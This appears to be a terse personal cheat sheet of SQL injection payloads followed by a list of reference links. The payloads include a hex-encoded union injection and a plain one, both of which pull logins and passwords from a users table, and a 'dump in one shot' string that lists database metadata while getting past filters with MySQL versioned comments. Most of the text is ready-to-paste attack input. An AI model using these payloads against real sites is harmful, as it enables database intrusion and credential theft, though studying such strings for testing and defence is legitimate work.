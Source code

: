 ' uNion sElect 0x2261646d696e2720556e694f6e2053656c65435420312c2047524f55505f434f4e434154286c6f67696e2c2720272c2070617373776f7264292046524f4d20635f776562736572766575725f34392e75736572732d2d202d22-- -

http://forum.sqliwiki.com/showthread.php?tid=82
https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet
http://thanat0s.trollprod.org/2013/01/sqlite-le-mal-aime-des-sqli/
https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29
https://websec.ca/kb/sql_injection
http://www.sqlinjectionwiki.com/Categories/2/mysql-sql-injection-cheat-sheet/#Gettinguserdefinedtables
http://securityidiots.com/Web-Pentest/SQL-Injection/routed_sql_injection.html



min' union select 1, GROUP_CONCAT(password, ' ') FROM users--


dios Do in one shot

pid=-42 union select 1,2,3,group_concat('Injected by maxo:::',version(),'<br>','user::',system_user(),'<br>','Database::',database(),'<br>',make_set(6,@:=0x0a,(/*!50000select*/(1) %66rom (/*!50000information_schema.columns*/)where table_schema!='information_schema'and@:=make_set(511,@,0x3c6c693e,/*!50000table_name*/,/*!50000column_name*/)),@)),5,6,7,8,9,10,11


by truncation

https://www.notsosecure.com/sql-column-truncation-vulnerabilities/